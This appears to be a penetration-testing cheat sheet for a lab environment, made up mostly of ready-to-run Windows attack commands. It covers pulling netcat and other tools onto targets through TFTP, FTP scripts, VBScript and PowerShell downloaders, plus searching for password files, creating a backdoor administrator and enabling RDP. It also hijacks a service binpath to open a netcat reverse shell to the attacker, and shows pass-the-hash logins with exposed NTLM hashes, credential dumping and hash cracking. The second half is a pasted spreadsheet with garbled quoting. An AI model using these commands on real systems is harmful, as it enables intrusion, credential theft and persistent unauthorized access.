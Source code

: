 
## File Transfer
Below methos can be used to transfer files..

## Transferring Files to Windows	## 
-**Running Webserver on Kali**
```
python -m SimpleHTTPServer 8080	
```
-**Transfer with Netcat**
```
//Kali
nc -lvp 1234 > zeroday.txt
//Win 
nc 192.168.0.114 1234 < zero-day.txt
```
ref: https://blog.ropnop.com/transferring-files-from-kali-to-windows/

-**TFTP** <br />
If target has tftp running, you can easily check it by typing tftp on windows cmd. 
Starting tftp service : 
```
atftpd --daemon --port 69 /tftp 
/etc/init.d/atftpd restart
cd /srv/tftp
cp /var/www/html/nc.exe .
```

```
//transfer nc.exe  
tftp -i 10.11.0.42 GET nc.exe
//PUT
tftp -i 10.11.0.42 PUT test.txt
```

-**FTP** <br />
Setup FTP service by downloading pyftp library 
```
apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21 -w
```
You can also automate ftp process by creating ftp.txt
```
echo open 10.11.0.42>ftp.txt
echo anonymous>>ftp.txt
echo password>>ftp.txt
echo binary>>ftp.txt
echo get nc.exe>>ftp.txt 
echo bye>>ftp.txt
ftp -s:ftp.txt
```

cf.	Setting FTP
```sh
groupadd ftpgroup 
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome 
pure-pw mkdb 
cd /etc/pure-ftpd/auth/ 
ln -s ../conf/PureDB 60pdb 
mkdir -p /ftphome 
chown -R ftpuser:ftpgroup /ftphome/ 
/etc/init.d/pure-ftpd restart
```

```
root@kali:~# chmod 755 setup-ftp 
root@kali:~# ./setup-ftp 
Password: 
Enter it again: 
Restarting ftp server
```

-**Creating VBscript** <br />
wget.vbs * VBScript  (eg. in Windows XP, 2003) 
```sh

echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

```
**Usgage**  : ```cscript wget.vbs http://10.11.0.42/wget.exe wget.exe```


-**PowerShell-** (in Windows 7, 2008, and above) 	 <br />
wget.ps1
```sh
echo $storageDir = $pwd > wget.ps1 
echo $webclient = New-Object System.Net.WebClient >>wget.ps1 
echo $url = "http://10.11.0.42/nc.exe" >>wget.ps1 
echo $file = "nc.exe" >>wget.ps1 
echo $webclient.DownloadFile($url,$file) >>wget.ps1 
```
**Usgage**  : ```powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive NoProfile -File wget.ps1```


# Post Exploit - Windows	
 
- **Checking OS Details** 
```
systeminfo 
findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

- **64 or 86 Checking** 
```
wmic os get osarchitecture
```
or check "System Files" like belows 
```
//C:\Windows\System32\license.rtf for Windows 7. 
//C:\Windows\System32\eula.txt for Windows XP
cd "C:/WINDOWS/inf/layout.inf" && cat layout.inf |grep productname
```

System32        C:\Windows\System32        Windows System folder (system directory) for 64-bit files<br />
SysWOW64        C:\Windows\SysWOW64        Windows System folder (system directory) for 32-bit files<br />

ref : http://www.samlogic.net/articles/32-64-bit-windows-folder-x86-syswow64.htm<br />

- **Find Sensitive Files** <br />
Find password	
```
findstr /si password *.xml *.ini *.txt
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /spin ""password"" *.*"
```

- **Adding Local User** <br />
Net commad
```
net user susu gothacked /add
net localgroup Administrators susu /add
```
If target has RDP service running, you may able to RDP into target; ```rdesktop -u susu -p gothacked 10.11.1.31```

- **Enable RDP service on Target **
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
NET LOCALGROUP "Remote Desktop Users" robert /ADD
NET LOCALGROUP "Remote Desktop Users" susu /ADD
```
If target has RDP service running, you may able to RDP into target; ```rdesktop -u susu -p gothacked 10.11.1.31```

- **AccessChck**

accesschk.exe
Guide : http://www.fuzzysecurity.com/tutorials/16.html"	"Old version : https://xorcat.net/assets/other/Accesschk.zip
https://xor.cat/2017/09/05/sysinternals-accesschk-accepteula/
accesschk.exe -qwsu ""Users"" *
https://docs.google.com/document/d/16WpxAa2vI6RbJrd42lZy3TM23ehwl_lY-zfRhYO9MbY/edit"
sc config	"sc config upnphost binpath= ""C:\Inetpub\Scripts\nc.exe -nv 10.11.0.45 7878 -e C:\WINDOWS\System32\cmd.exe""
sc config upnphost obj= "".\LocalSystem"" password= """"
sc config ssdpsrv start= demand"
Proof.txt	"echo %username%
whoami
ipconfig
more ""C:\Documents and Settings\Administrator\Desktop\proof.txt""
type ""C:\Documents and Settings\Administrator\Desktop\proof.txt""
type ""C:\Documents and Settings\Administrator\Desktop\proof.txt"""
"PTH
https://xapax.gitbooks.io/security/content/pass_the_hash_-_reusing_hashes.html?q=
https://www.kali.org/penetration-testing/passing-hash-remote-desktop/"	"1. RDP with Hash value
xfreerdp /u:""kevin"" /d:master.thinc.local /pth:aad3b435b51404eeaad3b435b51404ee:aef3d57f355a02297fc386630a01449e /v:10.11.1.220
password : !QW@3er45t
xfreerdp /u:""administrator"" /d:master.thinc.local /pth:aad3b435b51404eeaad3b435b51404ee:0598acedc0122622ad85afc9e66d329e /v:10.11.1.220
password : (gotta set the password after passing the smb hash)
2. SMB export hash value
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:0598acedc0122622ad85afc9e66d329e
pth-winexe -U Administrator% //10.11.1.220 cmd"
"After Exploit
Dump pwd"	fgdump.exe 
NTLM Decrypt	"john ./pwlist.txt --format=nt --wordlist=/pentest/passwords/wordlists/rockyou.txt
http://www.madhur.co.in/blog/2011/09/18/crackresetwindows.html
https://hashkiller.co.uk/ntlm-decrypter.aspx"
	
PsExec	https://pinkysplanet.net/escalating-privileges-in-windows-with-psexec-and-netcat/
	
Pass the HASH	"1. put the hash in the environment variable with export command
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:0598acedc0122622ad85afc9e66d329e
2. authenticate SMB's cred
pth-winexe -U Administrator% //10.11.1.220 cmd

export SMBHASH=aad3b435b51404eeaad3b435b51404ee:B74242F37E47371AFF835A6EBCAC4FFE

pth-winexe -U Administrator% //10.11.1.49 cmd
"

